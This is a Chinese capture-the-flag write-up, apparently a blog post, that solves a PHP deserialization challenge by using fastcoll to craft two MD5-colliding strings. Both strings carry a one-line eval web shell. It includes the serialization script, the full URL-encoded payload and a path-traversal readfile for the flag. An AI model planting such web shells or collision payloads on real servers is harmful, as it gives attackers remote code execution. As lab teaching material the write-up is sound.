 # 原创
：  利用fastcoll实现MD5碰撞

# 利用fastcoll实现MD5碰撞

**源码：**

```
&lt;?php
show_source(__FILE__);
class CDUTSEC
{
    public $var1;
    public $var2;

    function __construct($var1, $var2)
    {
        $var1 = $var1;
        $var2 = $var2;
    }

    function __destruct()
    {
        echo md5($this-&gt;var1);
        echo md5($this-&gt;var2);
        if (($this-&gt;var1 != $this-&gt;var2) &amp;&amp; (md5($this-&gt;var1) === md5($this-&gt;var2))) {
            eval($this-&gt;var1);
        }
    }
}

unserialize($_GET['payload']);

Notice: Undefined index: payload in /var/www/html/index.php on line 24

```

**代码审计：**<br/> 看上去是一道经典的md5碰撞题目，var1与var2原值弱比较不等md5编码后强比较相等。<br/> 根据这句`eval($this-&gt;var1);`我们发现我们的字符串不仅要能够实现md5碰撞以绕过，而且还必须实现命令注入。<br/> 在这里我们利用fastcoll来帮助我们实现这一步。<br/> **解题：**<br/> 我们先写一个一句话木马：`@eval($_POST["cmd"]); ?&gt;`<br/> 然后我们将shell.txt文件拖拽到我们fastcoll程序上，得到两个txt文件，这两个txt文件内容不一样，但是它们的MD5值是一样的。<br/> 接着我们利用反序列化构建我们的payload：

```
&lt;?php
class CDUTSEC{
    public $var1;
    public $var2;
}

$tr = new CDUTSEC();
$tr-&gt;var1 = file_get_contents('C:\\Users\\86138\\Downloads\\shell_msg1.txt');          
$tr-&gt;var2 = file_get_contents('C:\\Users\\86138\\Downloads\\shell_msg2.txt');

echo urlencode(serialize($tr));

```

代码运行生成：`O%3A7%3A%22CDUTSEC%22%3A2%3A%7Bs%3A4%3A%22var1%22%3Bs%3A192%3A%22%40eval%28%24_POST%5B%22cmd%22%5D%29%3B+%3F%3E%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%F8%C1n%04%EF%03%EA%EFx%B4%BA%B4tn%05%2A%E9L%ADJ%8B%14Z%B62%86%849-%A6%A5%0C%B8%D1%12%CA%DE%A8o%CD%EB%29%5CZ%CFc%40%81%10%25%3Af%BFUu4%07%CEXD%AEA%93%B5%2CA%0E%E6%BB%99%40%EFWp%3A%3D%DE%E8J%05%D1%E2%81.%E2%1E%93N%7E%C7%8B%DB%5BLg%C1d%94%BC%09%82%B3%9A%FE%97%C3g9%FD%26Rc%FEj%F4%09%A4HZ%EF%91%29%1F%C1%2FC%04%7E%22%3Bs%3A4%3A%22var2%22%3Bs%3A192%3A%22%40eval%28%24_POST%5B%22cmd%22%5D%29%3B+%3F%3E%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%F8%C1n%04%EF%03%EA%EFx%B4%BA%B4tn%05%2A%E9L%AD%CA%8B%14Z%B62%86%849-%A6%A5%0C%B8%D1%12%CA%DE%A8o%CD%EB%29%5CZ%CF%E3%40%81%10%25%3Af%BFUu4%07%CEX%C4%AEA%93%B5%2CA%0E%E6%BB%99%40%EFWp%3A%3D%DE%E8J%05%D1%E2%81%AE%E2%1E%93N%7E%C7%8B%DB%5BLg%C1d%94%BC%09%82%B3%9A%FE%97%C3g9%FD%A6Qc%FEj%F4%09%A4HZ%EF%91%29%1FA%2FC%04%7E%22%3B%7D`<br/> 利用我们生成的payload，我们进行传值测试：<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210307183617155.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> 接着就是常规地获取flag的操作了，这里利用蚁剑\菜刀，或者`readfile('../../../../../../flag')；`都行。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210307184003707.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210307184012840.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>
